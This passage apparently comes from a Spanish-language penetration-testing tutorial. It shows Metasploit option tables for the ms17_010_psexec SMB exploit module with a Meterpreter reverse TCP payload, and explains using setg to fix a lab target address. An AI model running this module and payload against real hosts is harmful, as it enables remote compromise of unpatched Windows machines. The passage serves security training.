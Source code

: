 ```r
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Además, existe la opción `setg`, que especifica opciones seleccionadas por nosotros como permanentes hasta que el programa se reinicie. Por lo tanto, si estamos trabajando en un host objetivo particular, podemos usar este comando para establecer la dirección IP una vez y no cambiarla nuevamente hasta que cambiemos nuestro enfoque a una dirección IP diferente.

### MSF - Permanent Target Specification

```r
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
```